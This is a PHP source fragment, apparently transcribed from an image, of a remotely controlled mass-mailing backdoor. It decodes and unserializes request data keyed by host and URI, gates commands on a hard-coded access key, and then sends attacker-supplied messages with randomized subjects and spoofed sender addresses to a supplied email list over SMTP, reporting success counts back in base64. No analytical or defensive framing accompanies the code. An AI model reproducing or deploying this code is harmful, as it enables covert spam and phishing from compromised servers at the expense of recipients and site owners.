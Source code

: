 	    $key  = $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
	    $data = decode($data, $key);
	    $data = @unserialize($data);
	    
	    if (!$data || !isset($data['ak'])) {
	        return FALSE;
	    }
	    
	    if ($data['ak'] != "63847b04-bf9e-42e1-8ad8-e0d312dbddea") {
	        exit();
	    }
	    
	    if (isset($data['c'])) {
	        $res["r"]["c"] = $data['c'];
	        return base64_encode(serialize($res));
	        
	    }
	    
	    $good       = 0;
	    $bad        = 0;
	    $last_error = 0;
	    
	    foreach ($data['e'] as $uid => $email) {
	        $theme = $data['s'][array_rand($data['s'])];
	        $theme = alter_macros($theme);
	        $theme = num_macros($theme);
	        $theme = xnum_macros($theme);
	        
	        $message = $data['l'];
	        $message = alter_macros($message);
	        $message = num_macros($message);
	        $message = xnum_macros($message);
	        $message = fteil_macros($message, $uid);
	        
	        $from = $data['f'][array_rand($data['f'])];
	        $from = alter_macros($from);
	        $from = num_macros($from);
	        $from = xnum_macros($from);
	        
	        if (strstr($from, "[CUSTOM]") == FALSE) {
	            $from = from_host($from);
	        } else {
	            $from = str_replace("[CUSTOM]", "", $from);
	        }
	        
	        $from_email = explode("<", $from);
	        $from_email = explode(">", $from_email[1]);
	        $from_name  = explode("\"", $from);
	        
	        $last_error = sendSmtpMail($from_email[0], $from_name[1], $email, $theme, $message, $data['lt'], $config_file);
	        
	        if ($last_error === 0) {
	            $good++;
	        } else {
	            $bad++;
	            $good = count($data['e']) - $bad;
	        }
	    }
	    
	    $res["r"]["e"] = $last_error === FALSE ? 0 : $last_error;
	    $res["r"]["g"] = $good;
	    $res["r"]["b"] = $bad;
	    
	    return base64_encode(serialize($res));
	}
